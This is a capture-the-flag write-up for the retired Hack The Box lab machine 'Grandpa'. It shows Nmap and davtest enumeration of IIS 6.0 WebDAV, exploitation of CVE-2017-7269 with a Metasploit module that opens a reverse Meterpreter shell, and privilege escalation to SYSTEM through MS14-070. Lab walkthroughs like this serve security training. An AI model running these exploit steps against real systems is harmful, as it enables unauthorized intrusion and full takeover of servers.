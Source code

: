 # Grandpa

This is the write-up for the box Grandpa that got retired at the 21st October 2017.
My IP address was 10.10.14.18 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.14    grandpa.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/grandpa.nmap 10.10.10.14
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Sun, 17 Jan 2021 12:25:53 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page displays an _"Under Construction"_ error and nothing interesting in the HTML source code.

As the **WebDAV** scan of Nmap shows, it seems to be possible to use different HTTP methods.
Lets scan what we can do with the methods:
```markdown
davtest -url http://10.10.10.14
```
```markdown
Sending test files
PUT     cfm     FAIL
PUT     txt     FAIL
PUT     html    FAIL
PUT     asp     FAIL
PUT     pl      FAIL
PUT     jhtml   FAIL
PUT     cgi     FAIL
PUT     php     FAIL
PUT     aspx    FAIL
PUT     shtml   FAIL
PUT     jsp     FAIL
```

None of the HTTP methods are allowed, but there is a [vulnerability in WebDAV (CVE-2017-7269)](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/) with a Metasploit module.

Using this **Metasploit** module to exploit the vulnerability:
```markdown
use exploit/windows/iis/iis_webdav_scstoragepathfromurl

set RHOSTS 10.10.10.14
set LHOST tun0

run
```

After running the exploit, it starts a Meterpreter shell as _NT AUTHORITY\Network Service_.

## Privilege Escalation

The `getuid` command says that access is denied, so `migrate` to a process that the user _NT AUTHORITY\Network Service_ has access to:
```markdown
1804  wmiprvse.exe      x86   0     NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
2880  cmd.exe           x86   0     NT AUTHORITY\NETWORK SERVICEC:\WINDOWS\system32\cmd.exe
2920  w3wp.exe          x86   0     NT AUTHORITY\NETWORK SERVICEc:\windows\system32\inetsrv\w3wp.exe
3804  davcdata.exe      x86   0     NT AUTHORITY\NETWORK SERVICEC:\WINDOWS\system32\inetsrv\davcdata.exe
```
```markdown
migrate 3804
```

Lets use the exploit suggester in Metasploit to get an exploit for privilege escalation:
```markdown
use post/multi/recon/local_exploit_suggester
set session 1
run
```

It suggests several exploits from which I will use _exploit/windows/local/ms14_070_tcpip_ioctl_:
```markdown
use exploit/windows/local/ms14_070_tcpip_ioctl

set session 1
set LHOST tun0
set LPORT 4445

exploit
```

After running this exploit, a new Meterpreter session as _NT AUTHORITY\SYSTEM_ starts and the box is done!
